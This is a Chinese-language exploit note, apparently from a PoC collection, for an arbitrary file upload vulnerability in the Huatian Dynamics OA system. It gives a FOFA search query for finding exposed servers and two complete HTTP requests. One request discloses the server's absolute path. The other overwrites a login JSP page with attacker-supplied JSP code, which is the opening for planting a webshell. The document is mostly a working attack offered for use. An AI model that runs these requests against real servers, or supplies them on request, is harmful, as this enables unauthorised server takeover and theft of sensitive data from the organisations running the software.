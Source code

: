 # 华天动力OA系统upload.jsp任意文件上传漏洞

华天动力协同办公系统将先进的管理思想、管理模式和软件技术、网络技术相结合，为用户提供了低成本、高效能的协同办公和管理平台。睿智的管理者通过使用华天动力协同办公平台，在加强规范工作流程、强化团队执行、推动精细管理、促进营业增长等工作中取得了良好的成效。华天动力OA存在任意文件上传漏洞，攻击者可以上传任意文件，获取webshell，控制服务器权限，读取敏感信息等。

## fofa

```yaml
body="/OAapp/WebObjects/OAapp.woa" || body="/OAapp/htpages/app"
```

## poc

获取绝对路径

```java
POST /OAapp/jsp/upload.jsp HTTP/1.1
Host: x.x.x.x:xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5Ur8laykKAWws2QO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 293

------WebKitFormBoundary5Ur8laykKAWws2QO
Content-Disposition: form-data; name="file"; filename="xxx.xml"
Content-Type: image/png

real path
------WebKitFormBoundary5Ur8laykKAWws2QO
Content-Disposition: form-data; name="filename"

xxx.png
------WebKitFormBoundary5Ur8laykKAWws2QO--
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411281028921.webp)

将“123”写入到normalLoginPageForOther.jsp文件中去

```javascript
POST /OAapp/htpages/app/module/trace/component/fileEdit/ntkoupload.jsp HTTP/1.1
Host: x.x.x.x:xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzRSYXfFlXqk6btQm
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 389

------WebKitFormBoundaryzRSYXfFlXqk6btQm
Content-Disposition: form-data; name="EDITFILE"; filename="xxx.txt"
Content-Type: image/png

<%out.print("123");%>
------WebKitFormBoundaryzRSYXfFlXqk6btQm
Content-Disposition: form-data; name="newFileName"

D:/htoa/Tomcat/webapps/OAapp/htpages/app/module/login/normalLoginPageForOther.jsp
------WebKitFormBoundaryzRSYXfFlXqk6btQm--
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411281029565.webp)

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411281029962.webp)
